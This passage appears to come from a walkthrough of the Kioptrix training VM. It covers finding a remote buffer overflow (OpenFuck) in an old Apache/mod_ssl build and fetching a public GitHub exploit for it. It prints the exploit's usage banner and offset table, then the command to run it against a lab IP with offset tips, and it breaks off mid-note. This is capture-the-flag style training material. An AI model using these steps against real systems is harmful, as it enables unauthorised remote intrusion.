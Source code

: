 
**Our First step is to make research on this particular version and see if there are vulnerabilities and exploits**

Going to google and searching this way gives us a Remote Buffer overflow attack and target is vulnerable to **OpenFuck**:

![](https://i.imgur.com/tpg9NNp.png)

We can also confirm these by using **searchsploit**;

![](https://i.imgur.com/sKAQcHW.png)

---

## Exploitation

**We will be using the GitHub exploit, seems cool and updated, Naturally, if you see a github exploit, try to try it out first before choosing another**

- We can access the GitHub exploit from the first link after our Google search; https://github.com/heltonWernik/OpenLuck
- Follow the download instructions and let get to the exploitation stage
- here is the syntax for running the command:

```sh
┌──(sec-fortress㉿kali)-[~/kioptrix/OpenFuck]                                                 
└─$ ./bankai                                                                                  

*******************************************************************                           
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *                           
*******************************************************************                           
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *                           
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./bankai target box [port] [-c N]                                                    

  target - supported box eg: 0x00                                                             
  box - hostname or IP address                                                                
  port - port for ssl connection                                                              
  -c open N connections. (use range 40-50 if u dont know)

  Supported OffSet:                                                                           
        0x00 - Caldera OpenLinux (apache-1.3.26)                                              
        0x01 - Cobalt Sun 6.0 (apache-1.3.12)                                                 
        0x02 - Cobalt Sun 6.0 (apache-1.3.20)                                                 
        0x03 - Cobalt Sun x (apache-1.3.26)                                                   
        0x04 - Cobalt Sun x Fixed2 (apache-1.3.26)                                            
        0x05 - Conectiva 4 (apache-1.3.6)                                                     
        0x06 - Conectiva 4.1 (apache-1.3.9)                                                   
        0x07 - Conectiva 6 (apache-1.3.14)                                                    
        0x08 - Conectiva 7 (apache-1.3.12)                                                    
        0x09 - Conectiva 7 (apache-1.3.19)                                                    
        0x0a - Conectiva 7/8 (apache-1.3.26)                                                  
        0x0b - Conectiva 8 (apache-1.3.22)                                                    
        0x0c - Debian GNU Linux 2.2 Potato (apache_1.3.9-14.1)                                
        0x0d - Debian GNU Linux (apache_1.3.19-1)                                             
        0x0e - Debian GNU Linux (apache_1.3.22-2)                                             
        0x0f - Debian GNU Linux (apache-1.3.22-2.1)                                           
        0x10 - Debian GNU Linux (apache-1.3.22-5)                                             
        0x11 - Debian GNU Linux (apache_1.3.23-1)                                             
        0x12 - Debian GNU Linux (apache_1.3.24-2.1)                                           
        0x13 - Debian Linux GNU Linux 2 (apache_1.3.24-2.1)                                   
        0x14 - Debian GNU Linux (apache_1.3.24-3)                                             
        0x15 - Debian GNU Linux (apache-1.3.26-1)                     
        0x16 - Debian GNU Linux 3.0 Woody (apache-1.3.26-1)

		.....
```

- Very good, so we can now do `./bankai 0x6b 172.16.216.130 -c 50`

***Note:**

- You don't need to specify the port for ssl connection since nmap doesn't return one
- Also make sure that target(0x00) is not mixed with box(172.16.216.130)
- Irrespective of choosing the right target, make sure your offest is set correctly
	- In our case it is ****